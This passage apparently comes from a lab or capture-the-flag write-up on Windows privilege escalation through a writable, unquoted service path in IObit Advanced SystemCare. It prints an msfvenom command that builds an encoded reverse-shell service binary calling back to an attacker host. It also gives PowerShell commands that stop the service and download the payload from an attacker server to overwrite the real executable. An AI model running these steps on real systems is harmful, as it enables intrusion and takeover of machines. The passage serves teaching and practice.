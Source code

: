 Now let's take a look at our winPEAS scan. We can see that there is an Unquoted service path  and that we have write access to 
```
C:\Program Files (x86)\IObit\Advanced SystemCare\
```
In that directory, there is a service executable "ASCService.exe" that we can abuse by replacing this with a malicious file which will give us a reverse shell.

![](attachments/20230913142635.png)

 All we need to do is to create a Windows reverse shell payload  using msfvenom and save it into a file with the same name as the service "ASSCService.exe". Then in order to upload and replace the legitimate file with our malicious payload file we need to first of all stop the **AdvancedSystemCareService9** service, then upload our payload into the same directory in order to overwrite the existing file.

Let's first create our payload using msfvenom:
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

![](attachments/20230913100821.png)
 Now lets stop the service  **AdvancedSystemCareService9**:
```shell
powershell -c "Stop-Service -Name 'AdvancedSystemCareService9' -Force"
```

Now transfer our payload to overwrite the file:
```shell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/ASCService.exe', 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe')"
```

